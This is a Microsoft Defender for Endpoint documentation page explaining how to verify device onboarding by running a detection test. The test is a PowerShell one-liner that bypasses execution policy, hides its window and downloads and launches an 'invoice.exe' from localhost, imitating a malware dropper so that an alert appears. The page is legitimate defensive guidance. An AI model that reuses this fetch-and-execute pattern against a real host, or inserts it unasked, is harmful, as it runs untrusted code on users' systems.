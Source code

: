 ```yaml
---
title: Run a detection test on a newly onboarded Microsoft Defender ATP device
description: Run the detection script on a newly onboarded device to verify that it is properly onboarded to the Microsoft Defender ATP service.
keywords: detection test, detection, powershell, script, verify, onboarding, microsoft defender for endpoint onboarding, clients, servers, test
search.product: eADQiWindows 10XVcnh
search.appverid: met150
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
ms.author: macapara
author: mjcaparas
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection: 
  - m365-security-compliance
  - m365initiative-defender-endpoint
ms.topic: article
ms.technology: mde
---
```


# Run a detection test on a newly onboarded Microsoft Defender for Endpoint device 

[!INCLUDE [Microsoft 365 Defender rebranding](../../includes/microsoft-defender.md)]


**Applies to:**
- Supported Windows 10 versions
- Windows Server 2012 R2
- Windows Server 2016
- Windows Server, version 1803
- Windows Server, 2019
- [Microsoft Defender for Endpoint](https://go.microsoft.com/fwlink/?linkid=2154037)
- [Microsoft 365 Defender](https://go.microsoft.com/fwlink/?linkid=2118804)

> Want to experience Microsoft Defender for Endpoint? [Sign up for a free trial.](https://www.microsoft.com/microsoft-365/windows/microsoft-defender-atp?ocid=docs-wdatp-exposedapis-abovefoldlink)

Run the following PowerShell script on a newly onboarded device to verify that it is properly reporting to the Defender for Endpoint service.

1. Create a folder:  'C:\test-MDATP-test'.
2. Open an elevated command-line prompt on the device and run the script:

   1. Go to **Start** and type **cmd**.

   1. Right-click **Command Prompt** and select **Run as administrator**.

      ![Window Start menu pointing to Run as administrator](images/run-as-admin.png)

3. At the prompt, copy and run the following command:

   ```powershell
   powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-MDATP-test\\invoice.exe');Start-Process 'C:\\test-MDATP-test\\invoice.exe'
   ```

The Command Prompt window will close automatically. If successful, the detection test will be marked as completed and a new alert will appear in the portal for the onboarded device in approximately 10 minutes.

## Related topics
- [Onboard Windows 10 devices](configure-endpoints.md)
- [Onboard servers](configure-server-endpoints.md)
- [Troubleshoot Microsoft Defender for Endpoint onboarding issues](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding)
